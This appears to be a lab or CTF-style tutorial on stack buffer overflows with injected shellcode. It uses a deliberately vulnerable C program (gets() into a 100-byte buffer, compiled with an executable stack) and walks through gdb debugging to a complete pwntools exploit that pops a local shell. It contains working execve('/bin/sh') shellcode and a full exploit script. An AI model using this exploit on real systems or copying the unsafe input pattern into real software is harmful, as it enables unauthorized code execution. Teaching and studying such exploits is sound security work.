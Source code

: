 # Shellcode

The code below doesn't even have a `system` call, now what?

```c
#include <stdio.h>
int main(){
    char name[100];
    fputs("Enter name: ", stdout);
    gets(name);
    fputs("Hello: ", stdout);
    puts(name);
    return 0;
}
```

Compile: `gcc chal.c -o chal -z execstack -no-pie`

If we run `checksec chal`, we find that the executable has NX disabled. This means we can use a buffer overflow overwrite of the `rip` to execute code in the stack, which we control through the name buffer. Such code that executes a shell is known as shellcode.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

## Payload

You can easily find shellcode for [x64](https://www.exploit-db.com/exploits/42179) and [x86](https://www.exploit-db.com/exploits/46809) on exploit-db. Our payload will look like the general buffer overflow payload, except part of the padding will be replaced by shellcode.

```python
# Buffer overflow payload
p.sendline(b"a"*120+p64(some address))
```

Now, our payload will consist of 4 parts

```python
# NOP sled
nop = b"\x90"*25
shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
padding = b"a" * (120 - len(nop+shellcode))
addr = p64(some address)
p.sendline(nop + shellcode + padding + addr)
```

The NOP sled is a series of [NOP](https://www.felixcloutier.com/x86/nop) instructions that don't do anything. This prevents the program crashing if we get the address to jmp to slightly wrong. We could put he shellcode after `rip`,but that's not recommended because `addr` probably has null bytes that would prevent the program from writing the whole payload.

Next, we need to find the position of our shellcode on the stack. The easiest way to do this is to run the program in a debugger, se a breakpoint and inspect the stack. 

```
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdf70 ('a' <repeats 52 times>)
0008| 0x7fffffffdf78 ('a' <repeats 44 times>)
0016| 0x7fffffffdf80 ('a' <repeats 36 times>)
0024| 0x7fffffffdf88 ('a' <repeats 28 times>)
0032| 0x7fffffffdf90 ('a' <repeats 20 times>)
0040| 0x7fffffffdf98 ('a' <repeats 12 times>)
0048| 0x7fffffffdfa0 --> 0x61616161 ('aaaa')
0056| 0x7fffffffdfa8 --> 0x4011f5 (<__libc_csu_init+69>:        add    rbx,0x1)
[------------------------------------------------------------------------------]


Breakpoint 1, 0x000000000040118a in main ()
```

From this stack printout, we can find that we want to jump to `0x7fffffffdf70` as that's where the stack begins. However, if we set this address in the payload, the exploit doesn't actually work. Let's debug it and print the stack again:

```
gdb-peda$ x/120x 0x7fffffffdf70
0x7fffffffdf70: 0x0000000000000000      0x0000000000000092
0x7fffffffdf80: 0x00007ffff7faf6a0      0x00007fffffffe010
0x7fffffffdf90: 0x0000000000404040      0x00007ffff7fb04a0
0x7fffffffdfa0: 0x0000000000000000      0x00007ffff7e71709
0x7fffffffdfb0: 0x000000000000000a      0x00007ffff7e71b63
0x7fffffffdfc0: 0x000000000000007e      0x00007ffff7faf6a0
0x7fffffffdfd0: 0x00007fffffffe010      0x00007ffff7e6676a
0x7fffffffdfe0: 0x00000000cc000000      0x00007fff00ffe080
0x7fffffffdff0: 0x0000000000401060      0x0000000000000000
0x7fffffffe000: 0x0000000000000000      0x00000000004011a7
0x7fffffffe010: 0x9090909090909090      0x9090909090909090
0x7fffffffe020: 0x9090909090909090      0x9090909090909090
```

Strangely, the position of our code has now moved to `0x7fffffffe010` this could be due to `gdb` allocating some extra space for environment variables. Anyway, once we set the correct address the code will work.

```python
from pwn import *

shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
p = process("./chal")
e = ELF("./chal")
nop = b"\x90" * 25
shellcode_location = p64(0x7fffffffe010)
payload = nop+shellcode
p.sendline(payload+b"\xcc"*(120-len(payload))+shellcode_location)
p.interactive()
```

```shell
Enter name: Hello: \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90PH1\xd2H1\xf6H\xbb/bin//shST_\xb0;\x0f\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\x10\xff\xff\xff\x7f
$ ls /
bin   home          lib32      media  root  sys  vmlinuz
boot  initrd.img      lib64      mnt     run   tmp  vmlinuz.old
dev   initrd.img.old  libx32      opt     sbin  usr
etc   lib          lost+found  proc     srv   var
$  
```

